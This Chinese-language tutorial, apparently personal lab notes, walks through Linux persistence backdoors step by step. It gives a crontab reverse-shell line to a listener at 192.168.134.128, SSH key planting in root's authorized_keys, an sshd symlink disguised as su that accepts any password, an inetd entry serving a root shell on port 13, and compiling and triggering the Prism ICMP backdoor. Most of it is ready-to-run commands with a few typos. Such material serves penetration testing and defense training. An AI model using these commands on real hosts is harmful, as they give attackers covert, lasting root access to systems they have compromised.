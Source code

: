 # Linux后门

### 计划任务后门crontab

> Crontab 命令被用来提交和管理用户的需要周期性执行的任务，与windows下的计划任务类似  
> 当安装完成操作系统后，默认会安装此服务工具，并且会自动启动 crond 进程，crond 进程每分钟会定期检査是否有要执行的任务，如果有要执行的任务，则自动执行该任务

##### 相关命令

```bash
crontab [-u user] -e :编辑某个用户的crontab文件内容
crontab [-u user] -1 :显示某个用户的crontab文件内容
crontab [-u user] -[i]r :从/var/spool/cron目录中删除某个用户的crontab文件，-i参数指定在删除用户的crontab文件时是否有确认提示
```

语法

|代表意义|分钟|小时|日期|月份|周|命令|
| ----------| ------| ------| ------| ------| -----| ------|
|范围|0-59|0-23|1-31|1-12|0-7||

##### 步骤

1. 在攻击机中进行监听

    ```bash
    nc -lvvp 监听端口号
    nc -lvvp 6666
    ```

    ​![image](assets/image-20241031161038-vsdkz5v.png)​
2. 目标机写入计划任务

    ```bash
    crontab -e 
    */1 * * * * bash -i >& /dev/tcp/攻击机/端口 0>&1
    [root@CentOS7 ~]# crontab -e 
    */1 * * * * bash -i >& /dev/tcp/192.168.134.128/6666 0>&1

    ```

    ​​![image](assets/image-20241031164346-yq36ztc.png)​​​​
3. 目标机自动执行后，攻击机获得反弹shell

    ​![image](assets/image-20241031164313-43j8noi.png)​

### ssh公钥免密

> **公私钥原理**
>
> 公私钥同时生成，公钥用于加密，私钥用于解密。公钥外持私钥内持
>
> ssh服务中，只需公钥放在服务器A上，就可以通过通过私钥登录到服务器A中
>
> ‍
>
> 将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized_keys中，之后客户端利用私钥完成认证即可登录
>
> 该后门比较容易被发现
>
> 在中途会让输入密钥对的密码，由于需要实现免密登录，所以回车跳过即可

‍

##### 步骤

攻击机生成公钥/私钥对

```bash
ssh-keygen -t rsa
```

​![image](assets/image-20241031164923-i2up00d.png)​

将攻击机.ssh目录下的id_rsa.pub复制到目标服务器的/root/.ssh、authorized_keys文件里

```bash
scp ~/.ssh/id_rsa.pub root@目标ip地址:/root/.ssh/authorized_keys
```

​​![image](assets/image-20241031175942-1oavjaj.png)​​

目标服务器中，将authorized_keys的权限改为600

```bash
chmod 600 /root/.ssh/authorized_keys
```

​![image](assets/image-20241031180022-x8go1h2.png)​

免密连接目标服务器

```bash
ssh root@192.168.134.132
```

​![image](assets/image-20241031180101-vtmqllg.png)​

### ssh软连接后门

> ssh软连接后门是一种经典后门，直接对sshd建立软链接，之后用任意密码就可以登录
>
> **软连接后门的原理**
>
> 是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，su在pam rootok只检测uid 0 即可认证成功，也可以使用其他软连接名字，但是文件必须得在/etc/pam.d目录下存在。  
>
> 特点:
>
> 1. 隐蔽性较弱，适一般的rookit hunter这类的防护脚本就可以扫描到；
> 2. 在本地查看端口号时会暴露端口，建议进行伪装
> 3. 能够绕过一些网络设备的安全流量监控

‍

##### 步骤

创建软链接，设置监听端口(伪装成常见端口)

```bash
ln -sf  /usr/sbin/sshd /tmp/su
/tmp/su -oPort=8081
```

​![image](assets/image-20241031180306-kuddcdf.png)​

尝试使用ssh连接目标服务器，使用**任意密码**都可以登录

```bash
ssh root@192.168.134.132 -p 8081
```

​![image](assets/image-20241031180427-6nzyc9c.png)​

### inetd/xined后门  13端口

> 用来监听外部网络请求socket的系统守护进程，
>
> 过程：当inetd接收到一个外部请求后，会根据这个请求到自己的配置文件中去找到实际处理它的程序，再把接收到socket交给那个程序处理
>
> inetd  --- kali
>
> xined  --- centos

‍

##### 步骤

###### centos安装inetd步骤

```bash
yum  -y  install  xinetd                           --使用yum安装
systemctl  enable  xinetd.service             --开机启用xinetd服务

systemctl  list-unit-files  |  grep  xinetd       --列出xinetd服务是否开机启动
systemctl  is-enabled  xinetd                       --列出xinetd服务是否开机启动
```

###### kali

安装步骤

```bash
apt-get install openbsd-inetd
```

设置后门并连接

向/etc/inetd.conf文件中加入一行：daytime stream tco nowait root /bin/bash bash -i

​​![image](assets/image-20241031201707-vpecsp7.png)​​​​![image](assets/image-20241031202004-wgnm0fh.png)​​

​​

开启inet 之后使用nc连接  nc -lvvp 目标IP 13

```bash
systemctl status inetd     查看状态
systemctl start inetd      开启服务
systemctl enable inetd.service
```

​​![image](assets/image-20241031202137-p6pqd8a.png)​​

```bash
nc -v 192.168.134.150 13
```

​![image](assets/image-20241031202308-bg4alqf.png)​

### Prism后门

> prism工具：https://github.com/andreafabrizi/prism
>
> 是Linux下的icmp反弹后门工具，使用时将会在后台等待特定的主机/端口连接信息的ICMP数据包

‍

##### 步骤

编译prism.c文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

​![image](assets/image-20241031180753-i1xxar7.png)​

编译完成后，查看prism后门配置信息

```bash
./prism Inf0
```

​​![image](assets/image-20241031180923-3w4w3ze.png)​​

将该后门上传到目标机中，再以root用户运行sendPacket.py脚本

```bash
sudo python2 ./sendPacket.py 目标IP 密码 攻击机ip 端口
[root@CentOS7 tmp]# sudo python2 ./sendPacket.py 192.168.134.132 p4ssw0rd 192.168.134.128 6767
```

​![image](assets/image-20241031181206-jvok58v.png)​

攻击机监听相关端口 等待后门连接

```bash
nv -lvvp 监听端口
```

​![image](assets/image-20241031181217-cd06ut5.png)​
